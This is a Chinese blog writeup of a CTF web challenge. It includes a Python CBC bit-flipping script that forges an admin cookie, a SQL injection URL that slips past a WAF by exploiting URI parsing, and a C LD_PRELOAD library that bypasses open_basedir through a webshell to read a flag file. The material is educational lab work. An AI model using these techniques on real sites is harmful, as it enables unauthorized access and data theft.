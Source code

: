 title: 三个白帽之招聘又开始了，你怕了吗？-Writeup
date: 2016-06-17 15:14:27
tags: CTF
categories: H-blog
---

这周的三个白帽题听说是前几天ALICTF的招聘题延续，上次两题都没撸出来，这次给了源码终于撸出来了。
<!--more-->

该渗透题有三个大坑

# 坑1: CBC攻击
很简单的CBC攻击，上次google ctf中出现过，我也写过wp:<http://0x48.pw/2016/05/03/0x1A/>

直接贴脚本吧：
```py
#!/usr/bin/env python
#-*- coding:utf-8 -*-

import requests
import hashlib
import base64
import re

def fuck_captcha(s):
	for x in xrange(0, 10000000):
		y = hashlib.md5(str(x)).hexdigest()
		if y[:4] == s:
			return str(x)
	print "God personality.(%s)" %s
	exit(1)


url = "http://451bf8ea3268360ee.jie.sangebaimao.com/login.php"
url2 = "http://451bf8ea3268360ee.jie.sangebaimao.com"

req = requests.get(url)

c = req.headers['Set-Cookie'].split(";")[0]
c = c.split("=")
cookie = {c[0]: c[1]}

cap = re.findall("=([a-f0-9]{4})", req.content)[0]
captcha = fuck_captcha(cap)

data = {"username": "ddmin", "password": "ddog", "captcha": captcha}
req = requests.post(url, data=data, cookies=cookie, allow_redirects=False)

c = req.headers['Set-Cookie']

user = c.split("=")[1]

u = user.replace("-", "+").replace("_", "/")
u += "=" * (len(u) % 4)

de = base64.b64decode(u)
de2 = chr(ord(de[0]) ^ ord('d') ^ ord('a')) + de[1:]

en = base64.b64encode(de2).replace("+", "-").replace("/", "_").replace("=", "")
# cookie = {"username": en}
# req = requests.get(url, cookies=cookie)
print en
# 输出的en为admin的cookie
```

第一个坑的CBC攻击好几种方法，还可以构造任意字符，所以在这存在注入
```
// index.php
<?php
/**
* @author firesun 
* @website https://github.com/firesunCN
*/
require_once("header.php");

if (!isset($_COOKIE['username']) || decrypt($_COOKIE['username']) === "") {
    setcookie("username");
	header("Location: login.php");
    exit();
}

$sql="select * from user where username='".decrypt($_COOKIE['username'])."';";
```

因为cookie的值是base编码过的，所以waf并没有用，不过这注入太麻烦了，建议还是踩第二个坑.

# 坑2: 绕waf
```
// admin/user.php
<?php
/**
* @author firesun 
* @website https://github.com/firesunCN
*/
require_once('header.php');

if(!isset($_REQUEST["id"])) {
	header("Location: index.php");
	exit();
}
$sql="select * from user where id=".$_REQUEST["id"].";";
```

这很明显是注入，不过却上了waf，表示这waf怼不动，哪位师傅怼得动？求教！

waf虽然怼不动，不过却有其他问题，在waf.php的76-85行对uri的处理有问题
```
$uri = explode("?",$_SERVER['REQUEST_URI']);
if(isset($uri[1])) {
	$parameter = explode("&",$uri[1]);
	foreach ($parameter as $k => $v) {
		$v1 = explode("=",$v);
		if (isset($v1[1])) {
			$_REQUEST[$v1[0]] = stripStr($v1[1]);
		}
	}
}
```

提出来本地测试一下：
```
<?php
function stripStr($str) {
    if (get_magic_quotes_gpc())
        $str = stripslashes($str);
    return addslashes(htmlspecialchars($str, ENT_QUOTES, 'UTF-8'));
}

echo '$_REQUEST value is: ';
var_dump($_REQUEST);
echo '<br />$_GET value is: ';
var_dump($_GET);
echo '<br />$uri value is: ';
$uri = explode("?",$_SERVER['REQUEST_URI']);
var_dump($uri);
echo "<br />".'now the $_REQUEST value is: ';

if(isset($uri[1])) {
	$parameter = explode("&",$uri[1]);
	foreach ($parameter as $k => $v) {
		$v1 = explode("=",$v);
		if (isset($v1[1])) {
			$_REQUEST[$v1[0]] = stripStr($v1[1]);
		}
	}
}

var_dump($_REQUEST);
?>
```

访问：`http://127.0.0.1/test/test.php?id=2?&id=3`
输出：
```
$_REQUEST value is: array(1) { ["id"]=> string(1) "3" }
$_GET value is: array(1) { ["id"]=> string(1) "3" }
$uri value is: array(3) { [0]=> string(14) "/test/test.php" [1]=> string(4) "id=2" [2]=> string(5) "&id=3" }
now the $_REQUEST value is: array(1) { ["id"]=> string(1) "2" } 
```

所以根本不需要怼waf，uri被处理后，$_GET和$_REQUEST的值可以不一样，然后直接注入就好了

payload: `http://451bf8ea3268360ee.jie.sangebaimao.com/admin/user.php?id=-1/**/union/**/select/**/1,2,3,(select/**/content/**/from/**/memo),5?&id=3`

得到信息:
```
/NQTGmhlG3im8PUcsO2GgMCieThLtbqi4.php
password:firesun
flag is at /.
```

然后就是最后一步了

# 坑3: bypass open_basedir

给的信息一看就知道是webshell, 先开AntSword连马，发现啥也干不了，看了看phpinfo()，发现ban了一堆函数，看着咋这么熟悉......这不是ALICTF的homework么，出题人也都是firesun师傅. 

首先看看能不能写文件，写文件的方法是从homework想出来的，使用`move_uploaded_file`，文件上传的函数写到`/tmp`目录下，读文件通过`highlight_file`或者`show_source`这类函数, 这里还有一个小坑，上传到`/tmp`目录的文件会被秒删，我们秒读就好了.

bypass open_basedir方法链接: <http://drops.wooyun.org/tips/16054>

不过和homework一样，服务器的命令基本都被ban了(像啥nc, cat, python，ls)全被ban了，所以按照homework的套路，用C来读目录和文件

```
//ddog.c
#include<stdlib.h>
#include<stdio.h>
#include<string.h>
#include<dirent.h>

void payload() {
	//DIR *dirp;
	//struct dirent *dp;
	FILE *fp, *fp2;
	char buf[100];
	//dirp = opendir("/");  //flag在/目录下
	fp = fopen("/tmp/tteesstt", "w");
	fp2 = fopen("/flag_gei_ni_ni_Ye_du_bu_LIAO", "r");
	fgets(buf, 100, fp2);
	fputs(buf, fp);
	//while ((dp = readdir(dirp)) != NULL) {
	//	fputs(dp->d_name, fp);    //得到/flag_gei_ni_ni_Ye_du_bu_LIAO文件路径
	//}
	fclose(fp);
	fclose(fp2);
	//closedir(dirp);
}

int geteuid() {
	if (getenv("LD_PRELOAD") == NULL) {
		return 0;
	}
	unsetenv("LD_PRELOAD");
	payload();
}
```

编译成so库
```
$ gcc -c -fPIC ddog.c -o ddog
$ gcc -shared ddog -o ddog.so
```

得到`ddog.so`，上传到`/tmp`，读文件信息一条龙:
![sanmao](http://qn.lazysheep.cc/img/sanmao.png)






